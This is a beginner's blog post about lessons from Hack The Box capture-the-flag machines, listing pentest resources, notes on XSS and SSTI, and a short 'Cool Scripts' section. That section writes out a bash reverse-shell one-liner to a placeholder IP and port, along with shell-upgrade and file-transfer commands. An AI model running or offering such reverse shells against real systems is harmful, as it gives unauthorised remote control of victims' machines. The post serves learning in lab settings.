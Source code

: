 ```yaml
---
layout: post
title: What I've Learned from Hackthebox So Far
subtitle: Started it for a good time, and still going
# gh-repo: https://github.com/signalapp
# gh-badge: [star, fork, follow]
tags: [hackthebox, CTF, hack, hacking, informational]
comments: true
published: true
---
```


I recently reached the rank of hacker on hackthebox here is some of the cool things I learned along the way.

![encryption](/assets/img/hackthebox-logo.png){: .mx-auto.d-block :}

I have been doing hackthebox on the side for about a month now, so here is some of my thoughts and cool thing I learned while breaking into boxes.
I’m currently sitting at the very start of Hacker rank with 6 userowns, 5 root owns, and 4 challenges.
![encryption](/assets/img/hackthebox-owns.png){: .mx-auto.d-block :}


I will be mostly writing about my experience with boxes rather than the challenges since they taught me the most and I had the most fun finishing them.
Let’s dive in!

### Very Useful Githubs

#### GTFOBins

[GTFOBins](https://gtfobins.github.io/) is basically a super collection of Unix binaries mostly focused on breaking restricted shells. I have a long list of binaries made for common Unix tools for breaking out of restricted shells and escalate privilege. I was a bit hard for me to follow the instructions at first, but after using them for a few machines, I think i have the gist of how to follow them.

#### PayloadsAllTheThings

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is a super collection of a set of payloads for lots and lots of Windows, macOS, Linux, and ChromeOs software and tool. Most of them come with kali version of Metasploit but using them without a Metasploit taught me a lot about how these things work. I do recommend trying this webpage before Metasploit if you are sure to know where exactly the vulnerability is.

#### PEAS(LinPeas)

After trying multiple enumeration tools I found the community favorite [PEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), and what a find this was. LinPeas (PEAS for linux) by far gave the most information of all the other ones and had everything color coded based on how critical they are. I LOVE THIS THING.


### Cool Scripts

#### Spawn a Bash Shell from a Python Environment
stuck in a Python shell?
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

#### Reverse Shell with One Line of Code
combine it with netcat and you are in for a good time.
~~~
bash -i >& /dev/tcp/<YOUR IP>/<THE PORT UR LISTENING ON> 0>&1 | sh
~~~

#### Host a Webpage with One Line of Code
Need to download a file to the victims machine or the other way around?
~~~
python3 -m http.server <PORT NUMBER>
~~~

### Useful Websites

#### Hash Identifier

During my journey, I came across multiple hashes that I didn’t know what they are. Which is a problem when it comes down to trying to decrypt. I know you can always look at hashcat and john examples to try and find out what kind hash you have. but using a website like [hashes.com](https://hashes.com/en/tools/hash_identifier) is much easier and faster.

#### HackerOne, Intigirity, Bugcrowd and Other Bug Bounty Websites

Very useful in case you need a thorough read on a vulnerability. Since bug hunters need to have a write for the compony to receive their bounty, they usually have very thorough and in depth guide on how to recreate or abuse the bug they have found.

#### Application User Manual

Lots of times, you know exactly what application you need to exploit because of all the hints, but you have know idea what your foothold is. Try reading the application manual. It always lists the set dependencies, privileges, default ports, etc. that can be later researched to find vulnerability in.

### Common Web Application Vulnerabilities

#### XSS

XSS is often ignore if the website isn’t and multiuser environment like social media. Since it is mostly used to stead data from other users, but you can still use XSS to grab admin passwords of websites. The best bug hunters gained their fame from abusing XSS on Fortune 500 companies and gaining bank from it.

#### SSTI

SSTI or Server-Side Template Injection is a very common vulnerability among web applications like flask running on Python. There is a very quick way of testing if a website is vulnerable to it as show below. It so quick to do its almost always worth a try.
![encryption](/assets/img/SSTI.png){: .mx-auto.d-block :}

### Linux Tools I Did'nt Know Exist But I Ended Up Using A lot

##### NETCAT 
Other than its usual usage like port listening, this is also used heavily in getting a reverse shell.

##### netpgp
Got a encrypted file?


### Skills I Want To Improve On

  - XSS
  - Java Script Injection
  - Not relying on Metasploit
  - Using r2 for reading binaries
  - Being More Observant
  - Not pressing Ctrl + C in a reverse shell -_-


{: .box-warning}
**Warning:** This post is meant to be educational and only used in ethical hacking. Please do not use any of the tools or commands mentioned here in a malicious way.
